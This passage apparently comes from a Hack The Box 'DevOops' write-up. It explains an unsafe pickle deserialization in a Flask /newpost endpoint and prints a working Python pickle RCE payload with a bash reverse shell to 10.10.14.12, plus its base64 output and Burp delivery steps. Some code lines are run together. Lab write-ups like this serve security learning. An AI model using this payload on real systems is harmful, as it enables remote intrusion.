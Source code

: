```text
# app = DebuggedApplication(app, evalex=True, console_path='/debugconsole')if __name__ == "__main__":
  app.run(host='0.0.0,0', Debug=True)Subject: test
 Content: test
 URL for later reference: /uploads/test.xml
 File path: /home/roosa/deploy/src
```

We see that there is a _newpost_ directory that takes in user input \(request data\) in a POST method and loads it using the pickle module.

A quick search on the module tells us what it does.

> The [`pickle`](https://docs.python.org/3/library/pickle.html#module-pickle) module implements binary protocols for serializing and de-serializing a Python object structure.

The page also include the following warning.

![](https://miro.medium.com/max/797/1*cV5mXhThL5oUMqcnD3ipvQ.png)

This is a HUGE red flag! The above warning states that you should never take in data from an untrusted source, however, in the script above, we can see that it takes in request data \(which is client side data that can be tampered with\) and doesn’t do any validation on that data. So we definitely have an arbitrary code execution vulnerability here.

Do a google search on “pickle exploit” to find the following [github page](https://gist.github.com/mgeeky/cbc7017986b2ec3e247aab0b01a9edcd). Download the exploit code and change the command to a bash reverse shell with the correct IP address and port.

```text
#!/usr/bin/python                                                                              
#                                                                                              
# Pickle deserialization RCE payload.                                                          
# To be invoked with command to execute at it's first parameter.                               
# Otherwise, the default one will be used.                                                     
#                                                                                              
                                                                                               
import cPickle
import sys
import base64DEFAULT_COMMAND = "bash -c 'bash -i >& /dev/tcp/10.10.14.12/1234 0>&1'"
COMMAND = sys.argv[1] if len(sys.argv) > 1 else DEFAULT_COMMANDclass PickleRce(object):
    def __reduce__(self):
        import os
        return (os.system,(COMMAND,))print base64.b64encode(cPickle.dumps(PickleRce()))
```

Run the exploit.

```text
root@kali:~/Desktop/htb/devoops# python pickle-payload.py Y3Bvc2l4CnN5c3RlbQpwMQooUyJiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjEyLzEyMzQgMD4mMSciCnAyCnRScDMKLg==
```

We need to insert the above base64 encoded string into the the POST request to _/newpost_. To do that, intercept the request to the index page, send it to Repeater, right click and select the option _Change Request Method_. Then add the path _/newpost_, change the _Content-Type_ to ‘_text_’ and include the base64 string our exploit generated.
